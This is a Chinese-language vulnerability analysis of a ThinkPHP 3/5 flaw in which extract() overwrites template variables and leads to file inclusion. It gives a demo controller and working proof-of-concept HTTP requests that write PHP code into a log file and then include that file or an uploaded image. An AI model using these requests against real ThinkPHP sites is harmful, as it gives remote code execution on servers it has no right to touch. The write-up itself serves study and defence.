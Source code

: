 `View::fetch`->`think\view\driver\Think::fetch`->`Template::fetch`

1. 通过`Template::parseTemplateFile`方法解析模板数据
2. `think\template\driver\File::read`方法通过`extract`对$vars覆盖包含了$cachefile，然后直接`include`包含

具体分析查看（tp3）https://mp.weixin.qq.com/s/_4IZe-aZ_3O2PmdQrVbpdQ和（tp5）https://mp.weixin.qq.com/s/_4IZe-aZ_3O2PmdQrVbpdQ

#### -漏洞复现

- demo构造

  tp3和tp5构造方式差不多，仅给出tp5。

  ```php
  <?php
  namespace Home\Controller;
  use Think\Controller;
  class IndexController extends Controller {
      public function index($value=''){
          $this->assign($value);
          $this->display();
      }
  }
  ```

  tp3复现构造访问入口时候不使用`display`方法，而是直接调用`fetch`方法需要加上`exit或die`，直接调用可能会因为`ob_start`方法开启了缓存区，从而不能输出代码。同时tp3需要构造和控制器相同名称的自定义模板页面，e.g.`fileinclusion.html`。

- PoC

步骤一：文件写入

PoC受到debug模式影响，但是框架版本影响区别不大，这里给出tp5的PoC。

```
开启debug模式下:
GET /index.php?m=Home&c=Index&a=index&test=--><?=phpinfo();?> HTTP/1.1
Host: x.x.x.x

不开启debug模式：
GET /index.php?m=--><?=phpinfo();?> HTTP/1.1
Host: 127.0.0.1
```

步骤二：文件包含

tp3变量覆盖的参数为$_filename，tp5变量覆盖参数为$cachefile，包含的时候PoC参数有差别：

```
thinkphp3:
GET /index.php?m=Home&c=Index&a=fileinclusion&value[_filename]=xxx.log HTTP/1.1
Host: x.x.x.x

thinkphp5:
GET /thinkphp/tp-5.0.15/public/index.php/index/index/tp5inclufile?cacheFile=/www/public/upload/20210510/xxxx.jpg HTTP/1.1
Host: x.x.x.x
```
